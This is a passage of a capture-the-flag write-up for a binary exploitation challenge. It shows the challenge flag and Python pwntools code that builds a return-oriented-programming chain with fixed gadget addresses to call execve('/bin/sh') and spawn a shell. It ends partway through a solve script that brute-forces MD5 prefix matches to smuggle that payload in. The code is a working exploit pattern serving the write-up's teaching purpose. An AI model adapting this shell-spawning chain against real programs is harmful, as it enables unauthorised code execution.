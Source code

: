 ```python

id_bss = 0x00000000006c4580
bin_sh = p64(id_bss + 64 + 8)
```
Now that we have the bin_sh pointer, we just need to pop that value into rdi and win!
```python
### ROP ###
front_padding = b'B'*24
pop_rdi = p64(0x00000000004006c6)
pop_rsi = p64(0x00000000004010dc)
pop_rax = p64(0x000000000041c0c4)
pop_rdx = p64(0x0000000000452856)
syscall = p64(0x000000000047ba25)
bin_sh  = p64(0x00000000006c4580 + 64 + 8)

payload  = front_padding
payload += pop_rax
payload += p64(0x3b)
payload += pop_rdi  #<--pop rdi
payload += bin_sh
payload += pop_rsi
payload += p64(0)
payload += pop_rdx
payload += p64(0)
payload += syscall

back_padding = b'Z'*(144-len(payload))
payload += back_padding
###########
```

`flag{MISC_574nd5_f0r_Mul71cl4551n9_15_5up3r_c00l!}`

[solve.py]({{https://adrianself.me/assets/writeups_assets/fabricator/solve.py}})
```python
#!/usr/bin/env python3

from pwn import *
from Crypto.Hash import MD5

prefix = b"Hi, my name is Jangui. My card is my passport. Please verify me."

def collide(payload):
    assert len(payload) == 400 - 256
    collisions = []
    i = 10000000
    while len(collisions)<2:
        msg = (prefix
              +str(i).encode()
              +b'/bin/sh\0'
              +b'A'*(256-len(prefix)-len(str(i))-len('/bin/sh\0'))
              +payload
              )
        h = MD5.new()
        h.update(msg)
        if h.hexdigest()[:2] == '00':
            collisions.append(msg)
        i+=1
    return collisions

### ROP ###
front_padding = b'B'*24
pop_rdi = p64(0x00000000004006c6)
pop_rsi = p64(0x00000000004010dc)
```